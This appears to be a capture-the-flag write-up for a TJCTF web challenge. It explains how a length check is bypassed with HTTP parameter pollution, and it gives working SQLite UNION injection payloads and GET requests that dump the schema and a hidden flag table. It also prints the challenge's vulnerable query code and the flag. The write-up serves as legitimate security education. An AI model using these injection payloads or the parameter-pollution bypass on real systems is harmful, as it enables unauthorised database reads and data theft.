


# ez-sql
Category: Web

## Description
just your average sql challenge, nothing else to see here (trust)

[Instancer](https://instancer.tjctf.org/challenge/ez-sql)

Attachments: [app.js](attachments/app.js)

## Write-up
When we access the provided URL, we are presented with the following page:


Upon analyzing the source code, the `/search` endpoint catches our attention. It performs a validation check on the `name` query parameter before using it in a SQL `SELECT` query. This endpoint appears to be vulnerable to SQL injection through the `name` parameter, as there is no input sanitization present.

```
app.get('/search', (req, res) => {
    const { name } = req.query;

    if (!name) {
        return res.status(400).send({ err: 'Bad request' });
    }

    if (name.length > 6) {
        return res.status(400).send({ err: 'Bad request' });
    }

    db.all(`SELECT * FROM jokes WHERE joke LIKE '%${name}%'`, (err, rows) => {
        if (err) {
            console.error(err.message);
            return res.status(500).send('Internal server error');
        }

        return res.send(rows);
    });
});
```

Furthermore, we need to utilize SQL injection to extract the flag, which was inserted into a separate flag table during the server initialization process.

```
const flagTable = `flag_${uuid.v4().replace(/-/g, '_')}`;
db.run(`CREATE TABLE IF NOT EXISTS ${flagTable} (flag TEXT)`);

db.run(`INSERT INTO ${flagTable} (flag) VALUES ('${flag}')`);
```

Since the flag table name is concatenated with a random value, we first need to leak the actual flag table name before we can query its contents. Considering that the database used is SQLite, we can employ the following SQL query to extract the database metadata, including table names.

```
%' UNION SELECT 1,sql FROM sqlite_master--
```

However, there is a length check for the `name` query parameter, which must be less than 6 characters. To bypass this limitation, we can employ HTTP parameter pollution by specifying the `name` parameter twice. By doing so, the backend will interpret our `name` parameter as an array instead of a string, resulting in `name.length == 2`. When this array is used in the SQL query, it will used the string representation which are the elements of the array joined by a comma (`,`).

Here's an example ExpressJS code snippet to demonstrate the behavior:

```
const express = require('express')
const app = express()
const port = 3000

app.get('/', (req, res) => {
  const { name } = req.query;
  if (name) {
    console.log(name)
    console.log(name.length)
    console.log(`${name}`)
  }
  res.send('Hello World!')
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})
```

When we access `/?name=hello`, we get the following output:

```
5
hello
```

However, when we access `/?name=hello&name=world`, we get the following output:

```
2
hello,world
```

Therefore, we can use the following GET request to bypass the length check and retrieve the table names:

```
GET /search?name=%25%27%20UNION%20SELECT%201%2Csql%20FROM%20sqlite_master--&name=x
```



From the retrieved table name, we can proceed to extract the contents of the table using:

```
%' UNION SELECT 1,flag FROM flag_766e7578_51ba_4adb_874a_38d332ff068f--
```

The corresponding GET request looks like this:

```
GET /search?name=%25%27%20UNION%20SELECT%201%2Cflag%20FROM%20flag_766e7578_51ba_4adb_874a_38d332ff068f--&name=x
```



Flag: `tjctf{ezpz_l3mon_squ33zy_603f8e08}`
